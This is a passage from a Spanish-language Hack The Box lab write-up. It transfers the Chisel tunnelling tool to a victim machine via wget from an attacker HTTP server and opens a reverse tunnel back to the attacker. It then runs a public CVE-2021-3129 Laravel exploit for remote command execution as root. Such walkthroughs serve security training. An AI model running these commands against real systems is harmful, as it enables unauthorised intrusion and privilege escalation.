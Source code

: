 - [Chisel](https://github.com/jpillora/chisel)

```go
git clone https://github.com/jpillora/chisel
cd chisel
go build -ldflags "-s -w" .
upx chisel -> Reducimos el peso del binario
```

<p align="justify">
  Para transferir el binario, podemos configurar un servidor HTTP utilizando Python y luego descargar el archivo en la máquina víctima.
</p>

```go
VM ATACANTE>
	python3 -m http.server 80
VM VICTIMA>
	wget http://10.10.14.2/chisel
```

>**CHISEL**

- **VM VÍCTIMA**

```go
./chisel client 10.10.14.2:1234 R:8000:localhost:8000
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/45e7a5c4-e877-422a-8324-c56b24c94253">
</p>

- **VM ATACANTE**

```go
./chisel server --reverse -p 1234
```
<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/ae38c6ab-6194-4fdd-8e0b-b943d4ab46ed">
</p>

<p align="justify">
  Ejecuté el exploit utilizando la siguiente sintaxis y los resultados indicaron que Laravel se estaba ejecutando con privilegios de root.
</p>

- [Exploit - Laravel V8](https://github.com/nth347/CVE-2021-3129_exploit)

```go
git clone https://github.com/nth347/CVE-2021-3129_exploit.git
cd CVE-2021-3129_exploit
python3 exploit.py http://localhost:8000 Monolog/RCE1 "ifconfig && whoami"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/c5a77033-26b0-4a70-a20b-b1616bfca2d0">
</p>
